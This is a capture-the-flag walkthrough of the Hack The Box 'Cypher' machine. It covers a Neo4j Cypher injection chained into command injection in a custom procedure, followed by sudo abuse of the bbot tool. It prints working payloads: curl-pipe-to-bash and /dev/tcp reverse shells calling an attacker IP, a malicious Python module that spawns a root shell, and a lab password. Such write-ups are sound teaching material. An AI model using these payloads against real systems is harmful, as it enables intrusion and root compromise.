


Cypher
Cypher was a medium-difficulty Linux box featuring SSH on port 22 and a custom web application on port 80.
Initial reconnaissance revealed a login form backed by a Neo4j graph database.
Testing for cypher injection by inserting a single quote character triggered database errors, confirming the vulnerability in the authentication endpoint.
Directory enumeration exposed a /testing endpoint containing a downloadable JAR file. Decompiling the Java archive with jd-gui revealed custom Neo4j procedures, including a vulnerable custom.getUrlStatusCode function that executed system commands via curl. The procedure constructed shell commands by directly concatenating user input.
Exploiting the cypher injection, I crafted a payload that called the vulnerable procedure:
RETURN h.value as hash UNION CALL custom.getUrlStatusCode('http:thing; curl http://10.10.16.75:8000/shell.sh | bash') YIELD statusCode AS hash RETURN hash;//
The semicolon separator bypassed output redirection to /dev/null, allowing command execution and establishing a reverse shell as the neo4j user.
Local enumeration revealed user graphasm's home directory containing a bbot configuration file with Neo4j credentials (neo4j:cU4btyib.20xtCMCXkBmerhK). These credentials provided SSH access as graphasm, who had sudo privileges to run the bbot OSINT tool as root.
Privilege escalation exploited bbot's custom module loading functionality. By creating a malicious Python module in /tmp/modules with a reverse shell payload in the setup() function and configuring bbot to load custom modules via module_dirs, I achieved root access when the module was executed with sudo privileges.
User flag
Initial nmap scan reveals 2 ports. SSH on 22 and a website on 80.
Cypher injection in the login form
The demo button redirects me to a login form. I have no credentials, so I'll take a look at the page's source code.
This website uses Neo4j as a database. I will check for cypher injection in the login fields.
For this, I will use burpsuite to keep everything tidy and easy to see.
The query it is running under the hood is:
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'INPUT' return h.value as hash
Where INPUT is the value put into the username field.
Fuzzing the website
dirsearch -u http://cypher.htb/ --exclude-sizes=22B
There is a testing endpoint. I'll check it out right away.
There is a JAR(Java archive) file available for download. I'll get it onto my box to examine it.
I will use jd-gui to decompile the archive.
JAR file decompilation and analysis
package com.cypher.neo4j.apoc;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;
public class HelloWorldProcedure {
@Procedure(name = "custom.helloWorld", mode = Mode.READ)
@Description("A simple hello world procedure")
public Stream<HelloWorldOutput> helloWorld(@Name("name") String name) {
String greeting = "Hello, " + name + "!";
return Stream.of(new HelloWorldOutput(greeting));
}
public static class HelloWorldOutput {
public String greeting;
public HelloWorldOutput(String greeting) {
this.greeting = greeting;
}
}
}
This is just a simple greeting class that greets the user. Not very interesting, but the second class contains something I could definitely use.
package com.cypher.neo4j.apoc;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Arrays;
import java.util.concurrent.TimeUnit;
import java.util.stream.Stream;
import org.neo4j.procedure.Description;
import org.neo4j.procedure.Mode;
import org.neo4j.procedure.Name;
import org.neo4j.procedure.Procedure;
public class CustomFunctions {
@Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
@Description("Returns the HTTP status code for the given URL as a string")
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://"))
url = "https://" + url;
String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };
System.out.println("Command: " + Arrays.toString((Object[])command));
Process process = Runtime.getRuntime().exec(command);
BufferedReader inputReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
BufferedReader errorReader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
StringBuilder errorOutput = new StringBuilder();
String line;
while ((line = errorReader.readLine()) != null)
errorOutput.append(line).append("\n");
String statusCode = inputReader.readLine();
System.out.println("Status code: " + statusCode);
boolean exited = process.waitFor(10L, TimeUnit.SECONDS);
if (!exited) {
process.destroyForcibly();
statusCode = "0";
System.err.println("Process timed out after 10 seconds");
} else {
int exitCode = process.exitValue();
if (exitCode != 0) {
statusCode = "0";
System.err.println("Process exited with code " + exitCode);
}
}
if (errorOutput.length() > 0)
System.err.println("Error output:\n" + errorOutput.toString());
return Stream.of(new StringOutput(statusCode));
}
public static class StringOutput {
public String statusCode;
public StringOutput(String statusCode) {
this.statusCode = statusCode;
}
}
}
If I can somehow call the custom.getUrlStatusCode procedure, I'll be able to achieve code execution. By passing in the http address like this custom.getUrlStatusCode('http://10.10.16.75/test'), I'll be able to make it call back to my server.
Shell as neo4j
After much searching and testing, I found a command that successfully made contact with my server.
RETURN h.value as hash UNION CALL custom.getUrlStatusCode('http://10.10.16.75:8000/test') YIELD statusCode AS hash RETURN hash;//"
It returns an Invalid credentials error message, but reaches out to my python server regardless.

I'll prepare a single reverse shell file, and I'll modify my command slightly.
# shell.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.75/9001 0>&1'
However, nothing happens on my netcat listener. This is because of the -o /dev/null part in the vulnerable bash command. It'll throw away everything that curl tries to pass, aside from the grabbed status code. This can be solved rather easily.
I'll add a separator ; at the end, and then I'll repeat the curl command, which should work as intended. I'll then pipe the shell to bash.
RETURN h.value as hash UNION CALL custom.getUrlStatusCode('http:thing; curl http://10.10.16.75:8000/shell.sh | bash') YIELD statusCode AS hash RETURN hash;//"
The shell hit my listener almost instantly.

On the box, I began searching around and found a user whose home directory I could enter.
While I cannot read the user flag yet, I can take a look at the .yml config file.
targets:
- ecorp.htb
output_dir: /home/graphasm/bbot_scans
config:
modules:
neo4j:
username: neo4j
password: cU4btyib.20xtCMCXkBmerhK
There is a password. I will try logging into the box as graphasm with these credentials.
Root flag
Looking for a privesc opportunity
Graphasm can run bbot as root, which is some sort of an OSINT tool.
Looking at its help menu, there are a few interesting options.
-c [CONFIG ...], --config [CONFIG ...]
Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'
--dry-run Abort before executing scan
-d, --debug Enable debugging
And a few more. If I can specify anything as a config input, and the debug options will allow for more verbose data sendback, I could read files like root's SSH key or the /etc/shadow file.
sudo /usr/local/bin/bbot --dry-run -d -c /etc/shadow
However, this returned an error.
I managed to get the desired output by adding a y to the -c flag.
Getting a root shell
When I tried grabbing root's SSH key at /root/authorized_keys, nothing was displayed back.
I began wondering whether it is possible to do other things using bbot, and I found the program's developer manual.
https://www.blacklanternsecurity.com/bbot/Stable/dev/module_howto/#create-the-python-file
I copied over the example module, and made a few edits.
from bbot.modules.base import BaseModule
import os
class whois(BaseModule):
watched_events = ["DNS_NAME"] # watch for DNS_NAME events
produced_events = ["WHOIS"] # we produce WHOIS events
flags = ["passive", "safe"]
meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
options = {"api_key": ""} # module config options
options_desc = {"api_key": "WhoisXMLAPI Key"}
per_domain_only = True # only run once per domain
base_url = "https://www.whoisxmlapi.com/whoisserver/WhoisService"
# one-time setup - runs at the beginning of the scan
async def setup(self):
os.system("bash -c 'bash -i >& /dev/tcp/10.10.16.75/9001 0>&1'")
self.api_key = self.config.get("api_key")
if not self.api_key:
# soft-fail if no API key is set
return None, "Must set API key"
async def handle_event(self, event):
self.hugesuccess(f"Got {event} (event.data: {event.data})")
_, domain = self.helpers.split_domain(event.data)
url = f"{self.base_url}?apiKey={self.api_key}&domainName={domain}&outputFormat=JSON"
self.hugeinfo(f"Visiting {url}")
response = await self.helpers.request(url)
if response is not None:
await self.emit_event(response.json(), "WHOIS", parent=event)
When I run this module, I should receive a root shell on my listener.
There are a few things that need to be done before though. First, I'll make a /tmp/modules directory, to not interfere with the regular bbot modules.
Then, I'll create a conf.yml file containing the following lines:
targets:
- ecorp.htb
output_dir: /home/graphasm/bbot_scans
module_dirs:
- /tmp/modules
config:
modules:
neo4j:
username: neo4j
password: cU4btyib.20xtCMCXkBmerhK
I copied the original bbot config, but added the module_dirs entry as instructed in the developer manual.
I placed the malicious module in the modules directory and ran this command.
sudo /usr/local/bin/bbot -p ./conf.yml -m whois

Rooted!